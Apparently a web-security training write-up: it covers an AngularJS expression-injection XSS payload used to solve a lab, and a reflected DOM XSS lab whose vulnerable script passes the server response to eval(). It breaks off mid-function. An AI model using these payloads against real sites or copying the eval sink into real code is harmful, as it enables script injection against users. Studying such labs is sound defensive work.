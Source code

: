                         <p>
                            Enter the following AngularJS expression in the search box:
                        </p>
                        <code class="code-scrollable">{{$on.constructor('alert(1)')()}}</code>
                    </li>
                    <li>
                        Click <strong>search</strong>.
                    </li>
                </ol>
            </div>
        </div>



#### Reflected DOM XSS

> This lab demonstrates a reflected DOM vulnerability. Reflected DOM  vulnerabilities occur when the server-side application processes data  from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing  it to a dangerous sink. 	
>
> To solve this lab, create an injection that calls the `alert()` function. 	

Vulnerable code

```html
<div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <script src="resources/js/searchResults.js"></script>
                    <script>search('search-results')</script>
                    <section class="blog-header">
                    <h1>0 search results for '&lt;/h1&gt;aaa'</h1><hr></section>
                    <section class="search">
                        <form action="/" method="GET">
                            <input type="text" placeholder="Search the blog..." name="search">
                            <button type="submit" class="button">Search</button>
                        </form>
                    </section>
                    <section class="blog-list">
                    <div class="is-linkback"><a href="/">Back to Blog</a></div></section>
                </div>
```

searchResults.js

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText); // !!!
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
```